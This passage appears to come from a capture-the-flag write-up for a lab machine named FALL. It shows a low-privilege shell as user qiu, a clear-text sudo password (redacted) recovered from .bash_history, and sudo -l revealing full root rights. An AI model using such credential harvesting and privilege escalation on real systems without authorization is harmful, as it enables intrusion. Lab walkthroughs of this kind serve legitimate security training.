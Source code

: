 ```shell
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:c8:91:5a brd ff:ff:ff:ff:ff:ff
    inet 10.69.96.73/24 brd 10.69.96.255 scope global dynamic noprefixroute ens33
       valid_lft 1132sec preferred_lft 1132sec
    inet6 fe80::af86:ce1d:cf2a:e830/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

I'm user `qiu`!

**local.txt:**
```shell
[qiu@FALL ~]$ cat local.txt 
A low privilege shell! :-)
```

## Privilege Escalation

### qiu to root

After gaining initial foothold on a target machine, we need to escalate our privilege. To do so, we need to enumerate the system.

**Bash History in `qiu`'s home directory:**
```shell
[qiu@FALL ~]$ ls -lah
[...]
-rw-------  1 qiu  qiu  292 Sep  5  2021 .bash_history
[...]
```

Oh! The `.bash_history` file has no symbolic link to `/dev/null`! Which means **we can read `qiu`'s Bash history!**

```shell
[qiu@FALL ~]$ cat .bash_history 
[...]
echo "{Redacted}" | sudo -S dnf update
[...]
```

In those commands history, this command stands out. This is because the clear-text password is being piped to the `sudo` command! Which means we found `qiu`'s password!

**Now, we can view `qiu`'s Sudo permission:**
```shell
[qiu@FALL ~]$ sudo -l
[sudo] password for qiu: 
Matching Defaults entries for qiu on FALL:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL
    PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on FALL:
    (ALL) ALL
```
